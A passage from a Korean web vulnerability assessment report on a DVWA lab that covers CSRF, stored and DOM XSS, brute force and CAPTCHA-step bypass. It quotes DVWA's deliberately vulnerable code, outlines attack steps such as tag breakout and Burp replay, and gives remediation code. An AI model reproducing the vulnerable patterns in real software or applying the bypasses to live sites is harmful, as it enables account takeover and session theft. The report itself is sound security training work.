> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.715 ~ 718)

- 본 실습에서는 DVWA의 Low 단계에서 CSRF 취약점을 대상으로  
  CSRF 토큰 및 요청 출처 검증 없이 외부에서 위조된 요청이 서버에 정상 처리되는지 확인하여 CSRF 취약점 존재 여부를 점검했습니다.

- CSRF(Cross-Site Request Forgery)는 사용자가 의도하지 않은 요청을 수행하도록 유도하는 공격입니다.
- 공격자는 사용자가 로그인된 상태를 이용하여 권한이 필요한 요청을 대신 수행하게 합니다.
- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 CSRF 관련 항목(p.715~718)과 연계하여 점검하였습니다.

---

**보안 위협**

- 공격자는 사용자의 인증 세션을 이용하여 별도의 인증 없이 요청을 전송할 수 있습니다.
- 사용자 의도와 무관하게 다음과 같은 행위가 수행될 수 있습니다.
  - 비밀번호 변경
  - 계좌 이체
  - 게시글 삭제
  - 개인정보 수정

- 이는 사용자 권한을 이용한 권한 오용 공격으로 이어질 수 있습니다.

---

## 판단 기준

### 양호

- 중요 요청에 대해 CSRF 토큰이 적용되고, 토큰 검증이 정상적으로 수행되는 경우

### 취약

- CSRF 토큰이 없거나, 토큰 검증 없이 요청이 수행되는 경우

---

## 점검 절차

1. 인증이 필요한 기능(비밀번호 변경, 게시글 작성 등) 확인
2. 요청(Request) 구조 및 파라미터 분석
3. CSRF 토큰 존재 여부 확인
4. 토큰 없이 요청 수행 가능 여부 테스트
5. 외부 페이지를 통한 요청 위조 가능 여부 확인

---

## 취약점 분석

- 소스코드를 보면 `$_GET['Change']` 파라미터만 확인할 뿐, CSRF 토큰 검증 로직이 전혀 없습니다.

```php
  if( isset( $_GET[ 'Change' ] ) ) {
      $pass_new  = $_GET[ 'password_new' ];
      $pass_conf = $_GET[ 'password_conf' ];
      // CSRF 토큰 검증 없음 — 요청 출처 확인 없이 파라미터만 맞으면 비밀번호 변경 처리
      if( $pass_new == $pass_conf ) {
          // 바로 DB에 업데이트 수행
          $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
      }
  }
```

- 요청 위조 방지 기능이 전혀 구현되어 있지 않아, 비밀번호 변경 요청에 CSRF 토큰이나 Referer/Origin 검증이 없는 구조입니다.
- 이 구조에서는 공격자가 요청 URL을 그대로 복사해 외부 페이지에 삽입하는 것만으로  
  인증된 사용자의 권한을 이용한 비밀번호 변경 요청을 대신 발생시키는 것이 이론적으로 가능합니다.

**판단 : 취약** — 실제 환경이었다면 계정 탈취 및 권한 오용으로 이어질 수 있습니다.

---

## 대응 방안

### CSRF 토큰 적용

- 모든 중요 요청(비밀번호 변경, 회원정보 수정 등)에 대해  
  난수 기반의 CSRF 토큰을 생성하여 요청에 포함하도록 구성합니다.

- 서버는 요청 수신 시 토큰의 존재 여부와 유효성을 반드시 검증합니다.
- 토큰은 세션과 연동하여 사용자별로 고유하게 생성하고, 재사용이 불가능하도록 관리합니다.

```php
  session_start();
  
  // 세션과 연동하여 사용자별 고유 CSRF 토큰 생성
  if (empty($_SESSION['csrf_token'])) {
      $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
  }
  
  // 요청 수신 시 토큰 검증 — 토큰 없거나 불일치 시 요청 거부
  if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
      http_response_code(403);
      die("Invalid CSRF token.");
  }
  
  // 일회성 처리 — 사용한 토큰 즉시 제거하여 재사용 차단
  unset($_SESSION['csrf_token']);
```

#### 핵심 효과

- 공격자가 임의로 요청을 생성하더라도 정상 토큰이 없으면 요청이 거부되어 CSRF 공격을 차단합니다.

---

### Referer / Origin 검증

- 서버에서 요청 헤더의 Referer 또는 Origin 값을 확인하여 요청 출처를 검증합니다.
- 허용된 도메인에서 발생한 요청만 정상 처리하도록 설정합니다.
- 외부 도메인에서 발생한 요청은 차단하도록 구성합니다.

#### 핵심 효과

- 외부 사이트를 통한 요청 위조를 탐지 및 차단할 수 있습니다.

---

### SameSite Cookie 설정

- 세션 쿠키에 SameSite 속성을 설정하여 외부 요청 시 쿠키가 자동으로 전송되지 않도록 합니다.

```php
  setcookie("PHPSESSID", session_id(), [
      'httponly' => true,    // JavaScript 쿠키 접근 차단 — XSS 연계 공격 방지
      'secure'   => true,    // HTTPS에서만 쿠키 전송
      'samesite' => 'Strict' // 외부 사이트 요청 시 쿠키 전송 차단 — CSRF 원천 차단
  ]);
```

#### 핵심 효과

- 공격자가 외부 사이트에서 요청을 유도하더라도 인증 쿠키가 전달되지 않아 공격이 실패합니다.

---

### Secure / HttpOnly 옵션 적용

- Secure 옵션을 설정하여 HTTPS 환경에서만 쿠키가 전송되도록 구성합니다.
- HttpOnly 옵션을 설정하여 JavaScript에서 쿠키 접근을 차단합니다.

#### 핵심 효과

- 세션 탈취 및 클라이언트 측 공격(XSS 등)과 결합된 공격을 방지할 수 있습니다.

---

### 요청 방식 개선 (GET → POST)

- 상태 변경이 발생하는 요청은 GET 방식이 아닌 POST 방식으로 처리하도록 설계합니다.
- URL 파라미터를 통한 직접 접근을 제한합니다.

#### 핵심 효과

- URL 기반 요청 위조 및 단순 링크 클릭 공격을 어렵게 만듭니다.

</details>

---

## 4.10. XSS (Stored)

| 항목 | 내용 |
|---|---|
| 취약 코드 | XSS (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/xss_s/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - XSS (Stored) 관련 항목 (p.711 ~ 714) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/XSS%20(Stored)/LOW_XSS%20(Stored).md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/XSS%20(Stored)_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 웹 애플리케이션 내 악성 스크립트가 DB에 저장되어 다른 사용자의 브라우저에서 자동 실행되는 취약점 존재 여부를 점검합니다.

**점검 목적**

- 사용자 입력값을 검증하여 세션 탈취, 악성 코드 삽입 등 악의적인 스크립트 실행을 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.711 ~ 714)

- 본 실습에서는 DVWA의 Low 단계에서 XSS (Stored) 취약점을 대상으로 사용자 입력값이  
  서버 DB에 저장된 후 페이지 방문 시 악성 스크립트가 자동 실행되는지 확인하여 XSS 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 XSS 관련 항목(p.711~714)과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값에 대한 필터링이 없을 경우, 공격자는 사용자 입력값 내  
  악의적인 스크립트(JavaScript, VBScript, ActiveX, Flash 등)를 삽입하여 사용자의 쿠키(세션)를 탈취하거나 피싱 사이트로 유도하는 등의 악의적인 공격을 수행할 수 있습니다.

- Stored XSS의 경우 스크립트가 DB에 영구 저장되어, 해당 페이지를 방문하는  
  모든 사용자의 브라우저에서 자동으로 스크립트가 실행되어 세션 탈취 및 피싱 공격으로 이어질 수 있습니다.

---

## 판단 기준

### 양호

- 사용자 입력값에 대해 검증 및 필터링이 이루어져, 악의적인 스크립트가 실행되지 않는 경우

### 취약

- 사용자 입력값에 대한 검증 및 필터링이 이루어지지 않으며, HTML 코드가 입력 및 실행되는 경우

---

## 점검 절차

1. DVWA XSS (Stored) 페이지 접속 및 구조 확인
2. 개발자 도구를 통한 입력 필드 속성 확인
3. 쿠키 탈취 스크립트 삽입 및 DB 저장 여부 확인
4. 페이지 재방문 시 스크립트 자동 실행 여부 확인
5. 서버 로그를 통한 쿠키 탈취 흔적 확인
6. DB 초기화 후 스크립트 제거 여부 확인

---

## 취약점 분석

- 소스코드를 보면 `mysqli_real_escape_string()`만 적용되어 있으며, HTML 인코딩 처리가 전혀 없습니다.

```php
$message = stripslashes( $message );
$message = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $message);  // SQL Injection 방어 목적 — XSS 필터링과 무관
$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";  // HTML 인코딩 없이 DB에 그대로 저장
```

- `mysqli_real_escape_string()`은 SQL Injection 방어를 위한 함수일 뿐  
  HTML 태그나 스크립트를 무력화하지 않기 때문에, 입력값이 인코딩 없이 DB에 그대로 저장되는 구조입니다.
- 저장된 스크립트가 별도 필터링 없이 그대로 페이지에 출력되므로,  
  악성 스크립트를 Guestbook에 저장하면 이후 해당 페이지를 방문하는 모든 사용자의 브라우저에서 자동으로 실행되는 구조입니다.
- Reflected XSS와 달리 피해자가 악성 링크를 클릭할 필요 없이  
  페이지 방문만으로 공격이 성립하기 때문에, 세션 쿠키 탈취 등 2차 피해로 이어질 가능성이 더 높은 구조입니다.

**판단 : 취약** — 실제 환경이었다면 세션 탈취, 개인정보 유출, 불특정 다수 대상 공격으로 이어질 수 있습니다.

---

## 대응 방안

### 입력값 검증 및 필터링(HTML 엔티티 변환) 적용

- 크로스사이트 스크립팅 공격에 사용되는 특수문자에 대해 입력값 검증 및 필터링 처리 로직을 서버 사이드에서 구현합니다.

| 변경 전 | 변경 후 |
|---------|---------|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `(` | `&#40;` |
| `)` | `&#41;` |
| `#` | `&#35;` |
| `&` | `&amp;` |

```php
// 사용자 입력값의 특수문자를 HTML 엔티티로 변환 — 스크립트 태그가 HTML로 해석되지 않음
function escapeHtml($input) {
    return htmlspecialchars($input, ENT_QUOTES | ENT_HTML5, 'UTF-8', false);
}
```

#### 핵심 효과

- 스크립트 태그가 HTML 태그로 해석되지 않고, 문자열로 해석되어 실행이 차단됩니다.

---

### 화이트리스트 방식 HTML 코드 처리

- 부득이하게 HTML 코드를 사용해야 하는 경우 화이트리스트 방식을 적용하여 허용된 HTML 코드만 처리합니다.

#### 핵심 효과

- 허용되지 않은 태그 및 스크립트 삽입 시도를 사전에 차단합니다.

---

### 웹 방화벽(WAF) 필터링 룰셋 적용

- 웹 방화벽에서 웹 태그 및 스크립트 관련 특수문자 필터링 룰셋을 적용하여 추가적인 방어를 확보합니다.

#### 핵심 효과

- 서버 사이드 필터링이 우회되더라도 추가 방어선을 통해 공격을 차단할 수 있습니다.

---

### 쿠키 보안 옵션 설정

- 세션 탈취 방지를 위해 쿠키에 `HttpOnly`, `Secure`, `SameSite` 옵션을 설정하여 쿠키가 외부에 노출되지 않도록 보호합니다.

```php
setcookie("PHPSESSID", session_id(), [
    'httponly' => true,    // JavaScript에서 쿠키 접근 차단 — XSS로 쿠키 탈취 불가
    'secure'   => true,    // HTTPS에서만 쿠키 전송 — 네트워크 도청 차단
    'samesite' => 'Strict' // 외부 사이트 요청 시 쿠키 전송 차단 — CSRF 방지
]);
```

#### 핵심 효과

- XSS 취약점이 존재하더라도 쿠키 탈취를 통한 세션 하이재킹을 방지할 수 있습니다.

</details>

---

## 4.11. XSS (DOM)

| 항목 | 내용 |
|---|---|
| 취약 코드 | XSD (중) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/xss_d/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - XSS (DOM) 관련 항목 (p.711 ~ 714) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/XSS%20(DOM)/LOW_XSS%20(DOM).md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/XSS%20(DOM)_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 웹 애플리케이션 내 악성 스크립트가 다른 사용자의 브라우저에서 실행되는 취약점 존재 여부를 점검합니다.

**점검 목적**

- 사용자 입력값에 대한 검증을 실시하여 세션 탈취, 악성 코드 삽입 등 악의적인 스크립트 실행을 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.711 ~ 714)

- 본 실습에서는 DVWA의 Low 단계에서 XSS (DOM) 취약점을 대상으로 URL 파라미터 값이 클라이언트 측  
  JavaScript에 의해 DOM에 직접 삽입되는 과정에서 악성 스크립트가 실행되는지 확인하여 XSS 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 XSS 관련 항목(p.711~714)과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값에 대한 필터링이 없을 경우, 공격자는 사용자 입력값 내  
  악의적인 스크립트(JavaScript, VBScript, ActiveX, Flash 등)를 삽입하여  
  사용자의 쿠키(세션)를 탈취하거나 피싱 사이트로 유도하는 등의 악의적인 공격을 수행할 수 있습니다.

- 크로스사이트 스크립팅은 악의적인 스크립트를 웹 페이지에 삽입하여 사용자 세션 탈취, 키로깅, 피싱 공격 등을  
  유발하는 기법으로, 크게 저장형(Stored)과 반사형(Reflected), DOM 기반 공격 방식으로 나뉩니다.

---

## 판단 기준

### 양호

- 사용자 입력값에 대해 검증 및 필터링이 이루어져, 악의적인 스크립트가 실행되지 않는 경우

### 취약

- 사용자 입력값에 대한 검증 및 필터링이 이루어지지 않으며, HTML 코드가 입력 및 실행되는 경우

---

## 점검 절차

1. DVWA XSS (DOM) 페이지 접속 및 정상 동작 확인
2. 기본 스크립트 삽입 및 실행 여부 확인
3. Burp Suite를 통한 요청 패킷 확인
4. 쿠키 탈취 스크립트 삽입 및 실행 여부 확인
5. 태그 이탈을 통한 이벤트 핸들러 우회 확인

---

## 취약점 분석

- 소스코드를 보면 `default` 파라미터 값을 검증 없이 읽어와 `document.write()`로 페이지에 직접 삽입하는 스크립트가 `<select>` 태그 내부에 그대로 포함되어 있습니다.

```html
<select name="default">
    <script>
        if (document.location.href.indexOf("default=") >= 0) {
            var lang = document.location.href.substring(document.location.href.indexOf("default=") + 8);
            // URL에서 default 파라미터 값을 검증 없이 그대로 추출
            document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
            // document.write()로 추출한 값을 HTML로 직접 삽입 — 스크립트 태그가 그대로 실행됨
            document.write("<option value='' disabled='disabled'>----</option>");
        }
        document.write("<option value='English'>English</option>");
        document.write("<option value='French'>French</option>");
        document.write("<option value='Spanish'>Spanish</option>");
        document.write("<option value='German'>German</option>");
    </script>
</select>
```

- `document.write()`는 전달받은 문자열을 HTML로 파싱하여 삽입하는 함수이기 때문에,  
  `default` 파라미터에 `<script>` 태그나 이벤트 핸들러를 포함시키면 그대로 실행되는 구조입니다.
- `document.cookie` 값을 읽어오는 스크립트를 이 파라미터에 삽입하면  
  `PHPSESSID` 등 세션 쿠키 값을 스크립트로 노출시키는 것이 이론적으로 가능합니다.
- 파라미터 값이 `<select>` 태그 내부에 삽입되는 구조이기 때문에, `</option></select>`로 태그를 강제 종료한 뒤  
  새 태그를 삽입하면 `<script>` 태그 없이 이벤트 핸들러만으로도 스크립트 실행을 우회할 수 있는 구조입니다.

**판단 : 취약** — 실제 환경이었다면 세션 탈취, 개인정보 유출, 피싱 공격으로 이어질 수 있습니다.

---

## 대응 방안

### 입력값 검증 및 필터링(HTML 엔티티 변환) 적용

- 크로스사이트 스크립팅 공격에 사용되는 특수문자에 대해 입력값 검증 및 필터링 처리 로직을 서버 사이드에서 구현합니다.

| 변경 전 | 변경 후 |
|---------|---------|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `(` | `&#40;` |
| `)` | `&#41;` |
| `#` | `&#35;` |
| `&` | `&amp;` |

#### 핵심 효과

- 스크립트 태그가 HTML 태그로 해석되지 않아 실행이 차단됩니다.

---

### 안전한 DOM 조작 방식 사용

- 클라이언트 측 JavaScript에서 외부 입력값을 DOM에 삽입할 때 반드시 안전한 방식을 사용합니다.

| 취약한 방식 | 안전한 방식 |
|-----------|-----------|
| `innerHTML = 입력값` | `textContent = 입력값` |
| `document.write(입력값)` | DOM API로 요소 생성 후 삽입 |
| `eval(입력값)` | 사용 자체를 지양 |

```javascript
// document.write() 대신 textContent로 안전하게 삽입 — HTML로 파싱되지 않아 스크립트 실행 불가
var option = document.createElement("option");
option.textContent = decodeURI(lang);
option.value = lang;
document.querySelector("select").appendChild(option);
```

#### 핵심 효과

- 입력값이 HTML로 파싱되지 않아 스크립트 삽입 자체를 차단합니다.

---

### 화이트리스트 방식 HTML 코드 처리

- 부득이하게 HTML 코드를 사용해야 하는 경우 화이트리스트 방식을 적용하여 허용된 HTML 코드만 처리합니다.

#### 핵심 효과

- 허용되지 않은 태그 및 스크립트 삽입 시도를 사전에 차단합니다.

---

### 웹 방화벽(WAF) 필터링 룰셋 적용

- 웹 방화벽에서 웹 태그 및 스크립트 관련 특수문자 필터링 룰셋을 적용하여 추가적인 방어를 확보합니다.

#### 핵심 효과

- 서버 사이드 필터링이 우회되더라도 추가 방어선을 통해 공격을 차단합니다.

---

### 쿠키 보안 옵션 설정

- 세션 탈취 방지를 위해 쿠키에 `HttpOnly`, `Secure`, `SameSite` 옵션을 설정하여 쿠키가 외부에 노출되지 않도록 보호합니다.

#### 핵심 효과

- XSS 취약점이 존재하더라도 쿠키 탈취를 통한 세션 하이재킹을 방지할 수 있습니다.

</details>

---

## 4.12. Brute Force

| 항목 | 내용 |
|---|---|
| 취약 코드 | BF (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/brute/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - U-03, 계정 잠금 임계값 설정 관련 항목 |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Brute%20Force/LOW_Brute%20Force.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Brute%20Force_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

#### 취약점 개요

**점검 내용**

- 사용자 계정 로그인 실패 시 계정 잠금 임계값 설정 여부 점검합니다.

**점검 목적**

- 무차별 대입 공격(Brute Force Attack)에 대응하여 시스템 자원을 보호하고 비인가 접근을 차단합니다.
- 자동화 도구를 이용한 반복 인증 시도로 인한 계정 탈취를 방지합니다.
- 본 실습에서는 DVWA의 Low 단계에서 Brute Force 취약점을 대상으로 로그인 실패 횟수 제한 및  
  계정 잠금 정책 미적용으로 인해 자동화 도구를 이용한 무차별 대입 공격이 가능한지 확인하여 Brute Force 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 계정 잠금 임계값 설정 관련 항목(U-03)과 연계하여 점검하였습니다.

---

**보안 위협**

- 로그인 시도 제한이 없을 경우 공격자는 무제한 인증 시도가 가능합니다.
- 비밀번호가 일치할 때까지 반복 공격 수행이 가능합니다.
- 계정 탈취 및 정보 유출 가능성이 증가합니다.

---

## 판단 기준

### 양호

- 로그인 실패 횟수 10회 이하 제한이 적용된 경우

### 취약

- 로그인 실패 횟수 제한이 없거나 10회를 초과하는 경우

---

## 점검 절차

1. 로그인 기능 존재 여부 확인
2. 동일 계정으로 반복 로그인 시도 수행
3. 로그인 실패 횟수 증가에 따른 시스템 반응 확인
4. 특정 횟수 초과 시 계정 잠금 여부 확인
5. 추가 인증(CAPTCHA, MFA 등) 적용 여부 확인

---

## 취약점 분석

- 소스코드를 보면 로그인 실패 시 오류 메시지만 출력할 뿐, 실패 횟수를 카운트하거나 잠금 처리하는 로직이 전혀 없습니다.

```php
  if( $result && mysqli_num_rows( $result ) == 1 ) {
      echo "<p>Welcome to the password protected area {$user}</p>";
  } else {
      // 실패 횟수 카운트 없음 — 반복 시도 횟수에 제한이 없어 무제한 공격 가능
      echo "<pre><br />Username and/or password incorrect.</pre>";
  }
```

- 로그인 실패 횟수 제한이나 계정 잠금 정책이 코드 수준에서 구현되어 있지 않기 때문에,  
  동일 계정에 대해 비밀번호를 무제한으로 반복 시도하는 것이 구조적으로 가능합니다.
- CAPTCHA, 추가 인증(MFA), Rate Limiting 등 반복 시도를 차단하는 방어 로직도 존재하지 않아,  
  Burp Suite Intruder 같은 자동화 도구로 사전 단어 목록(wordlist) 기반 공격을 수행하는 것이 이론적으로 가능한 구조입니다.

**판단 : 취약** — 실제 환경이었다면 자동화 도구를 통한 계정 탈취로 이어질 수 있습니다.

---

## 대응 방안

### 계정 잠금 정책 적용

- 로그인 실패 5~10회 초과 시 계정을 잠금 처리합니다.

```php
  session_start();
  
  if (!isset($_SESSION['login_attempts'])) {
      $_SESSION['login_attempts'] = 0;
  }
  
  $_SESSION['login_attempts']++;
  
  // 5회 이상 실패 시 추가 로그인 시도 차단
  if ($_SESSION['login_attempts'] >= 5) {
      die("로그인 시도 횟수를 초과했습니다. 잠시 후 다시 시도해주세요.");
  }
```

#### 핵심 효과

- 무차별 대입 공격 시도를 일정 횟수 이후 자동으로 차단합니다.

---

### Rate Limiting 적용

- 동일 IP 또는 계정에 대한 단위 시간 내 요청 횟수를 제한합니다.

```php
  $ip = $_SERVER['REMOTE_ADDR'];
  $cache_key = 'login_attempts_' . $ip;
  
  // 60초 내 10회 초과 시 요청 차단
  if (apcu_fetch($cache_key) > 10) {
      http_response_code(429);
      die("Too Many Requests. 잠시 후 다시 시도해주세요.");
  }
  
  // 요청 횟수 증가 (TTL 60초)
  apcu_inc($cache_key, 1, $success, 60);
```

#### 핵심 효과

- Burp Intruder 등 자동화 도구를 이용한 반복 요청을 차단합니다.

---

### CAPTCHA 적용

- 로그인 실패 일정 횟수 이후 CAPTCHA를 적용하여 자동화 도구의 반복 요청을 차단합니다.

#### 핵심 효과

- 봇을 이용한 자동화 공격을 차단합니다.

---

### 다중 인증(MFA) 적용

- ID/PW 외 OTP, SMS 인증, 이메일 인증 등 추가 인증 수단을 도입합니다.

#### 핵심 효과

- 비밀번호가 노출되더라도 계정 탈취를 방지할 수 있습니다.

---

### 비밀번호 정책 강화

- 최소 8자 이상, 영문 + 숫자 + 특수문자를 포함하도록 정책을 설정합니다.

#### 핵심 효과

- 단순한 비밀번호 사용을 방지하여 Brute Force 성공 확률을 낮춥니다.

---

### 로그인 실패 로그 및 탐지

- 로그인 실패 기록을 저장하고 동일 IP 반복 실패를 탐지하여 관리자에게 알림을 전송합니다.

#### 핵심 효과

- 공격 시도를 조기에 탐지하고 대응할 수 있습니다.

</details>

---

## 4.13. Insecure CAPTCHA

| 항목 | 내용 |
|---|---|
| 취약 코드 | IC (중) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/captcha/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - Insecure CAPTCHA 관련 항목 (p.739~743) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Insecure%20Captcha/LOW_Insecure%20Captcha.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Insecure%20Captcha_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 서비스 제공에 필요한 사용자 입력 및 실행단계의 흐름에 대한 검증의 적절성 여부를 점검합니다.

**점검 목적**

- 서버 사이드에서 단계별 검증을 통해 클라이언트 파라미터 조작으로 인한 프로세스 우회를 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.739~743)

- 본 실습에서는 DVWA의 Low 단계에서 Insecure CAPTCHA 취약점을 대상으로  
  Burp Suite Repeater를 통해 step 파라미터를 조작하여 CAPTCHA 검증 단계를 우회하고,  
  실제 비밀번호 변경이 이루어지는지 확인하여 프로세스 검증 누락 취약점 존재 여부를 점검했습니다.

- Insecure CAPTCHA는 CAPTCHA 검증이 step=1 단계에서만 수행되고 step=2에서는 재검증 없이 비밀번호 변경이 실행되는 구조로,  
  공격자가 step 파라미터를 조작하여 CAPTCHA를 전혀 풀지 않고도 중요 기능에 접근할 수 있는 취약점입니다. 

- CWE-306(Missing Authentication for Critical Function)에 해당하고  
  주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 프로세스 검증 누락(p.739) 항목과 연계하여 점검하였습니다.

---

**보안 위협**

- CAPTCHA 검증이 step=1에서만 수행되고 step=2에서는 재검증이 없는 경우,  
  공격자가 step 파라미터를 직접 조작하여 CAPTCHA 없이 비밀번호 변경 등 중요 기능을 수행할 수 있습니다.

- 서버가 프로세스 흐름을 클라이언트 파라미터에 의존하는 구조에서는 단계 우회를 통한 자동화 공격(봇)이 가능합니다.

---

## 판단 기준

### 양호

- CAPTCHA 검증 결과가 서버 세션에 저장되어 있으며, step=2 단계에서 세션을 통해 CAPTCHA 통과 여부를 재확인하는 경우

### 취약

- step=2 단계에서 CAPTCHA 재검증이 없으며, 클라이언트가 step 파라미터를 조작하여 CAPTCHA 검증 단계를 건너뛸 수 있는 경우

---

## 점검 절차

1. DVWA Insecure CAPTCHA 초기 화면 및 동작 확인
2. 정상 흐름으로 CAPTCHA를 풀고 비밀번호 변경 성공 확인
3. Burp Suite HTTP History에서 step=1, step=2 패킷 구조 분석
4. step=2 패킷을 Burp Suite Repeater로 전송
5. password_new, password_conf 파라미터를 원하는 값으로 변조 후 Send
6. CAPTCHA 없이 비밀번호 변경 성공 확인
7. 변경된 비밀번호로 로그인 성공 확인

---

## 취약점 분석

- 소스코드를 보면 step=1 블록에서는 `recaptcha_check_answer()`로 CAPTCHA를 검증하지만, step=2 블록에는 동일한 검증 로직이 없습니다.

```php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
    // CAPTCHA 재검증 없음 — step=2 조건만 충족하면 바로 비밀번호 변경 실행
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];
    if( $pass_new == $pass_conf ) {
        // 비밀번호 변경 처리
    }
}
```

- `step` 파라미터는 클라이언트가 POST로 전달하는 값이라  
  Burp Suite 등으로 자유롭게 조작할 수 있는데, 서버가 이 값을 그대로 신뢰하는 구조입니다.
- 이 구조에서는 공격자가 step=1의 CAPTCHA 검증 단계를 거치지 않고  
  step=2 요청만 직접 전송해도 비밀번호 변경이 처리되는 것이 가능합니다.

**판단 : 취약** — 실제 환경이었다면 자동화 봇이 CAPTCHA 없이 대량으로 비밀번호 변경, 계정 탈취 등을 수행할 수 있는 위험한 상태입니다.

---

## 대응 방안

### 서버 세션 기반 CAPTCHA 검증 및 프로세스 흐름 관리

- step=1에서 CAPTCHA 검증 성공 시 결과를 서버 세션에 저장하고, step=2에서 세션을 통해 CAPTCHA 통과 여부를 재확인합니다.
- step 파라미터는 클라이언트가 자유롭게 조작할 수 있으므로,  
  프로세스 진행 단계의 기준을 클라이언트 파라미터가 아닌 서버 세션으로 관리합니다.

- CAPTCHA 검증 결과를 일회성으로 처리하여 동일 세션으로 반복 요청이 불가능하도록 합니다.

```php
session_start(); // PHP 세션 초기화 — 서버가 사용자별 데이터를 저장하는 공간 생성
// step=1: 사용자가 CAPTCHA를 풀고 Change 버튼을 클릭한 첫 번째 요청
if( isset( $_POST['Change'] ) && $_POST['step'] == '1' ) {
    // 구글 reCAPTCHA 서버에 직접 검증 요청
    // 클라이언트가 전달한 값을 그대로 신뢰하지 않고 서버가 구글 API를 통해 직접 확인
    $resp = recaptcha_check_answer(
        $_DVWA['recaptcha_private_key'],      // 서버에만 존재하는 개인 키 — 클라이언트에 노출 불가
        $_POST['g-recaptcha-response']         // 사용자가 CAPTCHA를 풀었을 때 구글이 발급한 토큰
    );
    if( $resp ) {
        // CAPTCHA 검증 성공 시 서버 세션에 통과 기록 저장
        // 세션은 서버에서만 관리되므로 클라이언트가 Burp Suite로 조작 불가
        $_SESSION['captcha_passed'] = true;
        // step=2 폼 제공
    } else {
        echo "<pre>The CAPTCHA was incorrect. Please try again.</pre>";
    }
}
// step=2: 실제 비밀번호 변경 요청
if( isset( $_POST['Change'] ) && $_POST['step'] == '2' ) {
    // 클라이언트 파라미터가 아닌 서버 세션 기준으로 CAPTCHA 통과 여부 재확인
    // 공격자가 step=2를 직접 전송한 경우 세션에 기록이 없으므로 여기서 차단됨
    if( !isset( $_SESSION['captcha_passed'] ) || $_SESSION['captcha_passed'] !== true ) {
        echo "<pre>CAPTCHA verification required.</pre>";
        exit; // 비밀번호 변경 처리 중단
    }
    // 일회성 처리 — 세션 기록 삭제하여 동일 세션으로 반복 비밀번호 변경 시도 차단
    unset( $_SESSION['captcha_passed'] );
    // 비밀번호 변경 처리
}
```

#### 핵심 효과

- step=2 패킷을 직접 전송하거나 step 파라미터를 조작하더라도  
  세션에 CAPTCHA 통과 기록이 없으면 요청이 거부되어 단계 우회가 불가능합니다.

---

### 중요 기능에 매 요청마다 서버사이드 CAPTCHA 검증 수행

- 비밀번호 변경, 계정 생성 등 중요 기능은 단계를 나누지 않고  
  하나의 요청에서 CAPTCHA 검증과 기능 수행을 함께 처리합니다.

